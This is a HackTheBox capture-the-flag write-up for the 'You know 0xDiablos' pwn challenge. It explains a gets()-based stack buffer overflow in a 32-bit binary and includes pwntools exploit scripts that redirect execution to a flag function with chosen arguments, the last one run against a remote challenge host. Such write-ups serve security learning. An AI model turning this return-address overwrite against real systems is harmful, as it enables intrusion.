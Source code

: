 # You know 0xDiablos - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/You%2520know%25200xDiablos


## Solution

First, I checked some basic information about the file:

<p align="center">
<img src="../resources/HackTheBox/Diablos0.png" alt="Output of file command"/>
</p>

Here I noticed that it is `32-bit` ELF file.

Next, I checked file security:

<p align="center">
<img src="../resources/HackTheBox/Diablos1.png" alt="Output of checksec command"/>
</p>
There are almost no security protections enabled.

Then I ran the program and noticed that it prompts for input, then echoes it back:

<p align="center">
<img src="../resources/HackTheBox/Diablos2.png" alt="Program in work"/>
</p>

I decided to explore the program in Ghidra and found a piece of code that send us output and calls a `vuln` function:

<p align="center">
<img src="../resources/HackTheBox/Diablos3_0.png" alt="Disassembly of main function"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Diablos3_1.png" alt="main function in pseudo-C"/>
</p>

I found that the arguments are pushed onto the stack before the function call, indicating the use of the cdecl calling convention.

In vuln function at first I detected that it is an 180-byte buffer created:

<p align="center">
<img src="../resources/HackTheBox/Diablos4_0.png" alt="Disassembly of a buffer"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Diablos4_1.png" alt="A buffer in pseudo-C"/>
</p>

Under that there are two function calls: `gets` (insecure function) and `puts`. Both take pointer to buffer created above:

<p align="center">
<img src="../resources/HackTheBox/Diablos5_0.png" alt="Disassembly of vuln function"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Diablos5_1.png" alt="vuln function in pseudo-C"/>
</p>

The problem with the `gets` function is that it reads input until it encounters a `\n` byte and doesn't check the length of the input.

Also in function list I found a `flag` function:

<p align="center">
<img src="../resources/HackTheBox/Diablos6.png" alt="Output of file command"/>
</p>

Then I tried with `pwntools` to overflow the return address of `vuln` function:

<p align="center">
<img src="../resources/HackTheBox/Diablos7_0.png" alt="Script in ipython"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Diablos7_1.png" alt="gdb output"/>
</p>

Bytes `0x78 0x61 0x61 0x62` are the same as `xaab` (underlined on screenshot above)

Next, I tried to determine how many bytes are needed before we reach the overwritten return address:

<p align="center">
<img src="../resources/HackTheBox/Diablos8.png" alt="Searching for amount of bytes"/>
</p>

That means that our `xaab` is located between 188 and 193 bytes. These bytes we can change into return address of `flag` function (4 bytes because it is 32-bit binary).

Here is how I found the address of the `flag` function:

<p align="center">
<img src="../resources/HackTheBox/Diablos9.png" alt="Searching for flag address"/>
</p>

To test if this would work, I wrote the following script:

```python
from pwn import *

p = process('./vuln')
payload = b'A' * 188 + p32(0x80491e2)
p.sendline(payload)
p.interactive()
```
And got as a result:

<p align="center">
<img src="../resources/HackTheBox/Diablos10.png" alt="The result of script"/>
</p>

It worked locally. Next, I needed to do the same on the target machine. I have changed the script to connect to target via `netcat`, but for some reason it didn't work. Then I decided to back to `flag` function and noticed that this function gets two parameters and before sending the flag program checks these parameters:

<p align="center">
<img src="../resources/HackTheBox/Diablos11_0.png" alt="Disassembly of if-condition"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Diablos11_1.png" alt="If-condition in pseudo-C"/>
</p>


As I know, this binary uses the cdecl calling convention, so I needed to push our arguments onto the stack (or rather, overwrite the stack with them):

```python
from pwn import *

p = remote('94.237.51.163', 40903)
payload = b'A' * 188 + p32(0x80491e2) + p32(0xdeadbeef) + p32(0xc0ded00d)
p.sendline(payload)
p.interactive()
```

But it still didn't work:

<p align="center">
<img src="../resources/HackTheBox/Diablos12.png" alt="Using the script on th remote host"/>
</p>

With the help of ChatGPT, I found the reason: when we overwrite the return address, the address to return to after the called function (in this case, `flag`) is also placed on the stack. This means we need to account for 4 additional bytes (in a 32-bit binary) before our arguments.


```python
from pwn import *

p = remote('94.237.51.163', 40903)
payload = b'A' * 188 + p32(0x80491e2) + b'A' * 4 + p32(0xdeadbeef) + p32(0xc0ded00d)
p.sendline(payload)
p.interactive()
```

And here is the flag:

<p align="center">
<img src="../resources/HackTheBox/Diablos13.png" alt="The flag"/>
</p>
